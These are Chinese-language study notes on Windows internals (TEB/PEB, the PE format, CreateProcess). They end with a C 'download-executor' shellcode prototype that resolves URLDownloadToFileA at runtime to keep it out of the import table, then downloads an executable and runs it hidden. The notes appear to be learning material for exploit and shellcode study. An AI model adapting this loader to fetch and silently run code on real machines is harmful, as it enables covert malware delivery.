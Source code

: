 >
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

## PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。



---



## DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```